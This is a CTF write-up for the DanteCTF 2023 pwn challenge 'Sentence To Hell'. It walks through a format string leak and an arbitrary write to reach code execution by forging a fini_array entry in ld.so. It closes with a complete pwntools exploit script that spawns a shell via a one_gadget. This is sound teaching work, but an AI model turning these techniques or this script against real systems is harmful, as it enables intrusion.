

## Sentence To Hell

was a pwn challenge from **DanteCTF 2023**.

I did not have time to participate to **DanteCTF** as I was doing justCTF instead...

anyway I did this one quickly, which is a classic type of challenge where you can write a value to a chosen address to try to get code execution.

### 1 - The program

the program is small , so the reverse is quick 😋, here is the `main` (and only) function:

```c
int main(int argc, const char **argv, const char **envp)
{
  __int64 *target_addr; // [rsp+8h] [rbp-18h] BYREF
  __int64 value; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 canary; // [rsp+18h] [rbp-8h]

  canary = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  puts("Please, tell me your name: ");
  fgets(your_name, 12, stdin);
  your_name[strcspn(your_name, "\n")] = 0;
  printf("Hi, ");
  printf(your_name);        // format string vuln, used to 
  puts(" give me a soul you want to send to hell: ");
  __isoc99_scanf("%lu", &value);
  getchar();
  puts("and in which circle you want to put him/her: ");
  __isoc99_scanf("%lu", &target_addr);
  getchar();
  *target_addr = value;      // write choosen value to target address
  puts("Done, bye!");
  return 0;
}
```

let's `checksec` the binary to see protection in place:



Ok.. so, the author of the challenge gave us a format string vulnerability, the line `printf(your_name)` which will be useful to leak various addresses,  like stack, libc, program base, etc...

then we can choose an address and a value to write. and the program return.

pretty classic.

**Useful to note:**  Here the library used is `libc 2.35  (Ubuntu GLIBC 2.35-0ubuntu3.1)` which is the libc used by `Ubuntu 22.04` distribution.

### 2 - Achieving code execution.

Well there are various way to achieve code execution, I found at least 3 different one, but maybe there are many more:

1. Leaking stack address with the format string vuln, and overwriting main return address on stack.
2. Leaking libc address with the format string vuln, and overwriting `strlen` libc GOT entry that will be called by `puts()`
3. leaking ld.so address with the format string vuln, and creating a fake `fini_array` table entry, that will be executed by `_dl_fini` called by `run_exit_handlers()` at program exits..

that's not so bad, for my exploit I will use a mix of option 1 and 3.

I have tried a one gadget single shot via option 1 or 2, but none of the one gadgets works..so I decide to go another way.

First I will overwrite main return address on stack, to return to main. I will do this two times, because the limited 11 chars input in `your_name` will not allow me to leak all the values I want with the format string in one turn.

* First round, I will leak stack and libc address.

* Second round, I will leak exe base and `rtld_global` address.

* Third round , I will create a fake `fini_array` table  in `your_name`variable, and will overwrite an entry in ld.so to points on it.  That fake `fini_array`table will point to a one gadget that works at this point, and we will get code execution.

to achieve code execution in the third round, let's have a look at  `_dl_fini` function in libc 2.35  file: `elf/dl-fini.c` (line 123)

```c
         /* Is there a destructor function?  */
          if (l->l_info[DT_FINI_ARRAY] != NULL || (ELF_INITFINI && l->l_info[DT_FINI] != NULL))
            {
              /* When debugging print a message first.  */
              if (__builtin_expect (GLRO(dl_debug_mask) & DL_DEBUG_IMPCALLS, 0))
                _dl_debug_printf ("\ncalling fini: %s [%lu]\n\n", DSO_FILENAME (l->l_name), ns);

              /* First see whether an array is given.  */
              if (l->l_info[DT_FINI_ARRAY] != NULL)
              {
                ElfW(Addr) *array = (ElfW(Addr) *) (l->l_addr + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr);
                unsigned int i = (l->l_info[DT_FINI_ARRAYSZ]->d_un.d_val / sizeof (ElfW(Addr)));
                while (i-- > 0)
                  ((fini_t) array[i]) ();
              }
```

we overwrite `l->l_info[DT_FINI_ARRAY]` pointer (which is 0x13b0 bytes after `_rtld_global` in `ld.so`) with the address 

of our `your_name`variable in .bss,  in this variable we will forge a `fini_array` entry.

you can see that the array pointer is calculated by adding `l->l_addr`to `l->l_info[DT_FINI_ARRAY]->d_un.d_ptr` which is the second pointer of the `fini_array` entry.

```c
ElfW(Addr) *array = (ElfW(Addr) *) (l->l_addr + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr);
```

then this entry is called by:

```c
((fini_t) array[i]) ();
```

the `d_un` structure is declared like this:

```c
ptype l->l_info[DT_FINI_ARRAY]->d_un
type = union {
    Elf64_Xword d_val;				// address of function that will be called, we put our onegadget here
    Elf64_Addr d_ptr;				// offset from l->l_addr of our structure
}
```

So in our `your_name` variable, we put our onegadget and 0x4050, which is the offset to the  ̀your_name` variable..

you can check this mechanism under gdb, by putting a breakpoint like this:  `b *_dl_fini+445`

### 3 - The Exploit

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

# change -l0 to -l1 for more gadgets
def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l1', filename]).decode().split(' ')]

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

exe = ELF('./sentence_patched')
libc = ELF('./libc.so.6')

host, port = "challs.dantectf.it", "31531"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

# leak stack & libc address
sla('name: \n', '%p.%11$p.')
stack = int(rcu('Hi, ', '.'),16)
logleak('stack',stack)
libc.address = int(p.recvuntil('.',drop=True),16) - 0x29d90
logbase()
onegadgets = one_gadget('libc.so.6', libc.address)
# ret2main
target = stack+0x2148	# libcmain return address on stack
sla('hell: \n', str(libc.address+0x29d4c))
sla('her: \n', str(target))

# now we leak exe base & rltd_global address
target = stack+0x2148
sla('name: \n', '%13$p.%21$p')
exe.address = int(rcu('Hi, ', '.'),16)-0x1229
logleak('exe base',exe.address)
rtld = int(p.recvuntil(' ',drop=True),16)
logleak('rtld',rtld)
# ret2main again
sla('hell: \n', str(libc.address+0x29d4c))
sla('her: \n', str(target))

# write 
# makes l->l_info[DT_FINI_ARRAY] point to your_name variable on stack.. which will contains offset to a fake fini_array table (itself) which entry points to a onegadget
target = rtld+0x13b0
sla('name: \n', p64(onegadgets[8])+p16(0x4050)+b'\x00' )
sla('hell: \n', str(exe.address+0x4050))
sla('her: \n', str(target))

p.interactive()
```

you like to see fancy chars moving on screen?


so it's finished, see you in the next world. *nobodyisnobody still learning..*